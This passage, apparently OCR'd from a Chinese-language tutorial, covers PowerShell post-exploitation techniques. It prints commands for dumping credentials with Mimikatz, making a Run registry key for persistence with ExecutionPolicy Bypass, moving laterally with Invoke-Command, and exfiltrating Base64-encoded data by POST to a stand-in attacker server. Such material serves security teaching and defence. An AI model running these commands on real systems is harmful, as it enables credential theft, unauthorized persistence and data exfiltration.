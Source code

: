 可以使用 PowerShell 检查特权提升的机会。例如，以下 PowerShell 命令检查当前用户的权限：

```
 whoami /all
```

该命令显示当前用户的信息，包括其组成员身份和权限。

## 凭证转储

PowerShell 常被用于从内存中转储凭证。以下示例演示了使用**Mimikatz** PowerShell 模块，这是一款流行的凭证提取工具：

```
 # Load Mimikatz module
Import-Module .\mimikatz.ps1
# Run Mimikatz command to dump credentials
Invoke-Mimikatz -DumpCreds
```

该脚本导入**Mimikatz**模块并执行**Invoke-Mimikatz** cmdlet，从内存中提取凭据。

## 持久性

PowerShell 可以用来在被攻击的系统上建立持久性。例如，以下脚本会添加一个注册表项，在系统启动时执行 PowerShell 脚本：

```
 # Create a registry key for persistence
New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MyScript" -Value "powershell.exe -ExecutionPolicy Bypass -File C:\Path\To\MyScript.ps1"
```

该脚本创建一个注册表项，确保每次用户登录时都会执行 PowerShell 脚本。

## 横向移动

PowerShell 能够远程执行命令，这使得它在网络中进行横向移动时非常有价值。以下示例使用 PowerShell 远程执行命令：

```
 # Enable PowerShell remoting on the target machine
Enable-PSRemoting -Force
# Run a command on the remote machine
Invoke-Command -ComputerName TargetMachine -ScriptBlock { Get-Process }
```

在此示例中，目标机器上启用了 PowerShell 远程功能，然后执行一个命令（**Get-Process**）。需要注意的是，许多 cmdlet 都支持**-ComputeName**参数，这使得可以在远程系统上执行特定命令。

## 数据外泄

PowerShell 可以通过各种技术进行数据外泄。一个常见的方法是将数据编码为 Base64 并通过网络发送。以下脚本演示了这一过程：

```
 # Encode and send data to a remote server
$data = "SensitiveData"
$encodedData = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($data))
Invoke-WebRequest -Uri "http s://attac ker-server.com/upload.php" -Method POST -Body $encodedData
```
